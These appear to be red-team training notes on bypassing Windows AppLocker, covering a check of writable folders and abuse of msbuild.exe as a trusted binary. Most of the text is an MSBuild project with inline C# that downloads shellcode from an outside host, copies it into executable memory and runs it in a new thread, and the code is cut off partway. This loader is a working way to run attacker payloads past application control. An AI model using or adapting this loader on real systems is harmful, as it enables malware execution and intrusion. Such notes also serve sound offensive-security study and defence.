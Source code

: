### Writable paths

> The default rules allow execution from anywhere within C:\Program Files and C:\Windows (including subdirectories)

```bash
beacon> powershell Get-Acl C:\Windows\Tasks | fl
```

### LOLBAS

> They allow us to bypass AppLocker, because they're allowed to execute under the normal allow criteria 

```bash
msbuild.exe test.csproj
```

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Net;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    byte[] shellcode;
                    using (var client = new WebClient())
                    {
                        client.BaseAddress = "http://nickelviper.com";
                        shellcode = client.DownloadData("beacon.bin");
                    }
      
                    var hKernel = LoadLibrary("kernel32.dll");
                    var hVa = GetProcAddress(hKernel, "VirtualAlloc");
                    var hCt = GetProcAddress(hKernel, "CreateThread");

                    var va = Marshal.GetDelegateForFunctionPointer<AllocateVirtualMemory>(hVa);
                    var ct = Marshal.GetDelegateForFunctionPointer<CreateThread>(hCt);

                    var hMemory = va(IntPtr.Zero, (uint)shellcode.Length, 0x00001000 | 0x00002000, 0x40);
                    Marshal.Copy(shellcode, 0, hMemory, shellcode.Length);

                    var t = ct(IntPtr.Zero, 0, hMemory, IntPtr.Zero, 0, IntPtr.Zero);
                    WaitForSingleObject(t, 0xFFFFFFFF);

                    return true;
                }

            [DllImport("kernel32", CharSet = CharSet.Ansi)]
```